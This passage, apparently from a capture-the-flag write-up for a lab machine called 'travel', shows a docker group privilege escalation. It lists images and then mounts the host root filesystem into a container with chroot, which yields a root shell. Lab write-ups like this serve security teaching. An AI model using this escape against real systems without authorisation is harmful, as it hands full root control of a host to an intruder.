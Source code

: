 Now, using docker, we can list images:

```
trvl-admin@travel:~$ docker image list
REPOSITORY            TAG                 IMAGE ID            CREATED             SIZE
nginx                 latest              602e111c06b6        4 weeks ago         127MB
memcached             latest              ac4488374c89        4 weeks ago         82.3MB
blog                  latest              4225bf7c5157        6 weeks ago         981MB
ubuntu                18.04               4e5021d210f6        2 months ago        64.2MB
jwilder/nginx-proxy   alpine              a7a1c0b44c8a        3 months ago        54.6MB
osixia/openldap       latest              4c780dfa5f5e        8 months ago        275MB
```

Trying ubuntu gives us an error, but we know that blog has a full OS on it, so we'll use that:

```
docker run -v /:/mnt --rm -it blog chroot /mnt sh 

# id
uid=0(root) gid=0(root) groups=0(root)
```

Voila, root!
